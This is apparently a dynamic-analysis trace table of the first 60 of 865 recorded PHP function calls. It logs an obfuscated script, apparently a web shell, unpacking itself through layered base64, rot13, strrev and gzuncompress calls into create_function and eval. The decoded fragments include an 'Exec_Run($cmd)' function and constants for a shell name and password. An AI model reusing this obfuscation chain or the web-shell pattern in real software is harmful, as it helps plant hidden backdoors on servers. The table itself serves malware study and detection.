

The table this chart was drawn from, first rows:
uuid, file_md5, index, source, target, argc, argv, return, dynamic
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 0, __main__, zend_compile_file, 2.0, {"value": []}, {"value": "26262609413C39413C3A413C50514…, []
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 1, __main__, error_reporting, 1.0, {"value": [[0, "new_error_level", 5]]}, {"value": "void"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 2, __main__, set_time_limit, 1.0, {"value": [[0, "seconds", 0]]}, {"value": "void"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 3, __main__, header, 1.0, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 4, __main__, zend_fetch_r_server, 1.0, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 5, __main__, stristr, 2.0, {"value": [[0, "haystack", "127.0.0.1:50…, {"value": false}, [135, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 6, __main__, base64_decode, 1.0, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 7, __main__, create_function, 2.0, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_1"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 8, create_function, zend_compile_string, 2.0, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 9, __main__, __lambda_func, 0.0, {"value": []}, {"value": null}, []
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 10, __lambda_func, base64_decode, 1.0, {"value": [[0, "str", "\r\neJzsvWlv60qaJ…, {"value": "x\\x9c\\xec\\xbdio\\xebJ\\x9a…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 11, __lambda_func, gzuncompress, 1.0, {"value": [[0, "data", "x\\x9c\\xec\\xbd…, {"value": "\r\nob_start();define('myaddr…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 12, __lambda_func, eval, 1.0, {"value": [[0, "phpcode", "\r\nob_start(…, {"value": null}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 13, eval, zend_compile_string, 2.0, {"value": [[0, "source_string", "\r\nob_…, {"value": "3C415051423C41423C41423C41423…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 14, eval, ob_start, 0.0, {"value": []}, {"value": "void"}, []
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 15, eval, zend_fetch_r_server, 1.0, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 16, eval, define, 2.0, {"value": [[0, "constant_name", "myaddre…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 17, eval, define, 2.0, {"value": [[0, "constant_name", "postpas…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 18, eval, define, 2.0, {"value": [[0, "constant_name", "shellna…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 19, eval, define, 2.0, {"value": [[0, "constant_name", "myurl"]…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 20, eval, pazihj, 2.0, {"value": [[0, "MtrIng", "==DsX0jBmIzpxN…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 21, pazihj, strtr, 3.0, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 22, pazihj, strtr, 3.0, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 23, pazihj, strrev, 1.0, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 24, pazihj, str_rot13, 1.0, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 25, pazihj, base64_decode, 1.0, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 26, pazihj, base64_decode, 1.0, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 27, pazihj, strtr, 3.0, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 28, pazihj, strrev, 1.0, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 29, pazihj, str_rot13, 1.0, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 30, pazihj, base64_decode, 1.0, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 31, pazihj, strrev, 1.0, {"value": [[0, "str", "==DsX0jBmIzpxNvol…, {"value": "MaIhL3Eco24tEKuyL19FqJ4bWTAgM…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 32, pazihj, str_rot13, 1.0, {"value": [[0, "str", "MaIhL3Eco24tEKuyL…, {"value": "ZnVuY3Rpb24gRXhlY19SdW4oJGNtZ…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 33, pazihj, base64_decode, 1.0, {"value": [[0, "str", "ZnVuY3Rpb24gRXhlY…, {"value": "function Exec_Run($cmd)\r\n{\…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 34, pazihj, create_function, 2.0, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_2"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 35, create_function, zend_compile_string, 2.0, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 36, pazihj, __lambda_func, 0.0, {"value": []}, {"value": "void"}, []
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 37, eval, pazihj, 2.0, {"value": [[0, "MtrIng", "=0aPAfGXbHJnxO…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 38, pazihj, strtr, 3.0, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 39, pazihj, strtr, 3.0, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 40, pazihj, strrev, 1.0, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 41, pazihj, str_rot13, 1.0, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 42, pazihj, base64_decode, 1.0, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 43, pazihj, base64_decode, 1.0, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 44, pazihj, strtr, 3.0, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 45, pazihj, strrev, 1.0, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 46, pazihj, str_rot13, 1.0, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 47, pazihj, base64_decode, 1.0, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 48, pazihj, strrev, 1.0, {"value": [[0, "str", "=0aPAfGXbHJnxOPVX…, {"value": "MaIhL3Eco24tL3AmK2ygMltxnJ1aX…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 49, pazihj, str_rot13, 1.0, {"value": [[0, "str", "MaIhL3Eco24tL3AmK…, {"value": "ZnVuY3Rpb24gY3NzX2ltZygkaW1nK…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 50, pazihj, base64_decode, 1.0, {"value": [[0, "str", "ZnVuY3Rpb24gY3NzX…, {"value": "function css_img($img){\r\n\t…, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 51, pazihj, create_function, 2.0, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_3"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 52, create_function, zend_compile_string, 2.0, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 53, pazihj, __lambda_func, 0.0, {"value": []}, {"value": "void"}, []
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 54, eval, pazihj, 2.0, {"value": [[0, "MtrIng", "==DsX0DsWbDQ7f…, {"value": "void"}, [0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 55, pazihj, strtr, 3.0, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 56, pazihj, strtr, 3.0, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 57, pazihj, strrev, 1.0, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 58, pazihj, str_rot13, 1.0, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
c5716385a1fd249f0ff7413cc94a2ccd, d04823361075d4d89a1f2d1b886cca5a, 59, pazihj, base64_decode, 1.0, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
... 805 more rows
